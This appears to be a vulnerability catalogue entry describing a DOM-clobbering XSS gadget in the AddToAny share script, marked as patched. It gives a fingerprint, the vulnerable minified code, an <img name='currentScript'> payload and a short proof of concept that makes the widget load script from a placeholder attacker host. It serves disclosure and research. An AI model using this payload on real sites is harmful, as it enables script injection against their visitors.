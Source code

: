 ## AddToAny

### Meta

+ Library: AddToAny
+ Stars: N/A
+ Fingerprint: `window.hasOwnProperty('a2a_config')`
+ Payload: ```<img name="currentScript" src="https://addtoany.xxx.xxx"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Patched
+ Foundby: TheHulk
+ TheThing: None

### Library

URL:
+ `https://static.addtoany.com/menu/page.js` (patched)

### Vulnerable Code Snippet

```javascript
_ = (d = o.currentScript) && d.src ? d.src : "",
e = d && !d.async && !d.defer,
```

```javascript
a = (t = n.static_server) ? t + "/" : "https://static.addtoany.com/menu/",
p = _ && -1 !== _.split("/")[2].indexOf("addtoany"),
l = (p = (l = !t && p ? _ : a).match(/^[^?#]+\//)) ? p[0] : l,
```

```javascript
var e = l + (t ? "" : "modules/");
c(e + "core" + g + ".js", !0);
```

## PoC

```
<img src="https://addtoany.xxx.xxx" name="currentScript">
<script async src="https://static.addtoany.com/menu/page.js"></script>
```

